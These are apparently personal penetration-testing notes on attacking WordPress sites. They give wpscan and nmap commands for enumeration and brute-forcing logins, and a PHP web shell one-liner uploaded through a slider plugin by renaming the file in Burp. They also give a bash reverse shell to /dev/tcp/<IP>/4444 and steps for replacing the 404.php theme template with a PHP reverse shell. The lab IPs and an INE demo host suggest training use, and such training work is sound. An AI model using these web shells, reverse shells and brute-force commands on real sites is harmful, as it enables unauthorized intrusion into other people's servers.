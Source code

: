 # WordPress

## Enumeration

### Interesting Files

* wp-content
* wp-content/plugins
  * Check this directory even if `wpscan` doesn't identify any installed plugin
    * May not work though - check sources code of blog pages
* wp-admin
* wp-config.php
* wp-trackback.php
* wp-login.php

```
-rwxr-xr-x  1 www-data www-data   405 Feb  6  2020 index.php
-rwxr-xr-x  1 www-data www-data 19915 Jan  1  2021 license.txt
-rwxr-xr-x  1 www-data www-data  7346 Sep 30 00:41 readme.html
-rwxr-xr-x  1 www-data www-data  7165 Jan 21  2021 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Nov 10 14:18 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2328 Feb 17  2021 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  3769 Nov  8 17:01 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 Feb  9 22:51 wp-content
-rwxr-xr-x  1 www-data www-data  3939 Jul 30  2020 wp-cron.php
drwxr-xr-x 25 www-data www-data 16384 Nov 10 14:18 wp-includes
-rwxr-xr-x  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rwxr-xr-x  1 www-data www-data  3900 May 15  2021 wp-load.php
-rwxr-xr-x  1 www-data www-data 45463 Apr  6  2021 wp-login.php
-rwxr-xr-x  1 www-data www-data  8509 Apr 14  2020 wp-mail.php
-rwxr-xr-x  1 www-data www-data 22297 Jun  1  2021 wp-settings.php
-rwxr-xr-x  1 www-data www-data 31693 May  7  2021 wp-signup.php
-rwxr-xr-x  1 www-data www-data  4747 Oct  8  2020 wp-trackback.php
-rwxr-xr-x  1 www-data www-data  3236 Jun  8  2020 xmlrpc.php
```

### Scanning

#### nmap

```bash
nmap -sV --script=http-wordpress-brute.nse,http-wordpress-enum.nse,http-wordpress-users -p80 <IP>

```

#### wpscan

```bash
# Basic Scan
wpscan --url http://10.10.248.119 -o wpscan.log
# Enumerate vulnerable plugins, themes, and users
wpscan --url http://10.10.248.119 -e vp,vt,u -o wpscan.log --api-token <>
# Brute Forcing Login
wpscan --url http://10.10.128.156/ -U users.txt -P /usr/share/wordlists/rockyou.txt -vv
```

## Exploitation

### Plugins

* Can add modified WordPress plugin header to the top of the reverse shell file
* Upload reverse shell plugin as a zip file

#### Responsive Thumbnail Slider

* Using 'php/webapps/37998.txt' we can follow the steps from within the file.
* Responsive Thumbnail Slider --> Manage Images --> Add New
* Create a file called shell.php.jpg with the below contents:
  * `<?php system($_GET["cmd"]) ?>`
* With Burp Intercept on, upload the the file and send the request to Repeater
  * Modify the filename from shell.php.jpg to shell.php and send the modified request
* Turn off Intercept and back on the web page it should show "New image added successfully"
* There are two new entries of images (initial request and repeater request)
* Clicking on the webshell entry bring us to a new page and gives the link to the image
* Clicking the link brings us to the file and can now get command execution
  * By appending `?cmd=id`
* Now to get a reverse shell by updating the payload value
  * `?cmd=/bin/bash -c "bash -i>& /dev/tcp/<IP>/4444 0>&1"`
  * Note: It may have to be URL encoded

### Themes Templates

#### 404.php

* Edit the 404.php template to include a reverse shell payload
* Appearance --> Editor
* Select 404 Template from the right side pane
* Copy the contents of /usr/share/webshells/php/php-reverse-shell.php and replace the contents in the 404.php template
  * Update the attacker machine IP and port as necessary
  * Then click on the Update File button
* Start a netcat listener and visit a page that doesn't exist
  * `http://demo.ine.local/i-dont-exist`
    * And a reverse shell connection is made
